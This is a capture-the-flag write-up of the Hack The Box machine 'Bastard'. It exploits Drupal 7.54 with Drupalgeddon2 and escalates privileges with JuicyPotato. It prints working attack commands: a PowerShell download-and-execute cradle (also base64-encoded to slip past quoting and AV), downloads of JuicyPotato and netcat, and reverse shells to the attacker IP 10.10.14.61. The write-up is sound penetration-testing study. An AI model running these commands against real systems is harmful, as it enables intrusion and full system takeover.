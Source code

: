 # Bastard v.1

## Enumeration

### Legion

> This package contains an open source, easy-to-use, super-extensible and semi-automated network penetration testing tool that aids in discovery, reconnaissance and exploitation of information systems.

{% embed url="https://www.kali.org/tools/legion" %}

### Port 80

#### Version

* Drupal 7.54, 2017-02-01

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_drupal\_version.png)

### RCE

{% embed url="https://github.com/dreadlocked/Drupalgeddon2" %}

```
./drupalgeddon2.rb http://bastard.htb/
.
.
.
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          4/4/2022, 6:15:32 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                          [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                          [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.584 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.611 MB
Virtual Memory: In Use:    484 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                          [01]: Intel(R) PRO/1000 MT Network Connection
                                Connection Name: Local Area Connection
                                DHCP Enabled:    Yes
                                DHCP Server:     10.129.0.1
                                IP address(es)
                                [01]: 10.129.123.241
```

### What is drupalgeddon?

{% embed url="https://cyware.com/news/what-is-drupalgeddon-and-what-kind-of-targets-does-it-go-after-78f558ec" %}

{% embed url="https://www.rapid7.com/blog/post/2018/04/27/drupalgeddon-vulnerability-what-is-it-are-you-impacted" %}

`$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./ps_tcp.ps1`

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.61 -Port 4444
```

## Shell

The below is less known to AV but did not work because the powershell version on the machine is old

```powershell
powershell -c 'IEX(IWR http://10.10.14.61/ps_tcp.ps1 -UseBasicParsing)'
```

We have to encode our command posisbly due to quotes and bad characters. Powershell accepts base64 encoded commands. We had to convert UTF-8 to 16-bit little indian encoding

```bash
echo -n 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.61/ps_tcp.ps1")' | iconv -f ASCII -t UTF-16LE | base64 | tr -d "\n"

SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANgAxAC8AcABzAF8AdABjAHAALgBwAHMAMQAiACkA 
```

```powershell
drupalgeddon2>> powershell.exe -nop -exec bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANgAxAC8AcABzAF8AdABjAHAALgBwAHMAMQAiACkA
```

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_setup\_listener.png)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_gained\_shell.png)

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_whoami (1).png>)

## Privledge Escalation

{% embed url="https://youtu.be/eLNYc-1ScdU?t=9033" %}

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_Pasted image 20220404181827.png>)

{% embed url="https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505" %}

{% embed url="https://github.com/ohpe/juicy-potato" %}

```powershell
(New-Object Net.WebClient).downloadFile('http://10.10.14.61/JuicyPotato.exe','JuicyPotato.exe')
```

```powershell
(New-Object Net.WebClient).downloadFile('http://10.10.14.61/nc64.exe','nc64.exe')
```

{% embed url="http://ohpe.it/juicy-potato/CLSID" %}

Any with NT AUTHORITY\SYSTEM will work although it's trial and error to see which one will work&#x20;

Impersonating a SYSTEM process with a different service

```bash
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\drupal-7.54\nc64 -e cmd.exe 10.10.14.61 8444" -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_Pasted image 20220404190117.png>)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_whoami\_system.png)

## Flags

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_userflag (1).png>)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_rootflag.png)
